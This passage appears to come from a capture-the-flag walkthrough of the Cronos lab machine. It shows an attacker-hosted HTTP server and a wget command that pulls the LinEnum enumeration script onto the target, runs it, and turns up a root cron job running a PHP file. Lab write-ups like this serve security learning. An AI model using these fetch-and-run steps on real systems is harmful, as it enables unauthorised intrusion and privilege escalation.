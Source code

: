 Let us run an enumeration script known as [LinEnum](https://github.com/rebootuser/LinEnum). We can transfer the binary from our local host to the remote host using a Python server. The LinEnum result shows that there is a PHP file that is being executed as a cron job under user root .

uploading LinEnum from my box to the machine 

```sh
wget -r http://10.10.14.9:8000/LinEnum.sh
```

![](/Linux/Linux-Medium/Cronos/Screenshots/wget.png)

now we run the script

```sh
bash LinEnum.sh
```

![](/Linux/Linux-Medium/Cronos/Screenshots/LinEnum.png)

we see the cron job eing execute bty root 

![](/Linux/Linux-Medium/Cronos/Screenshots/executed.png)
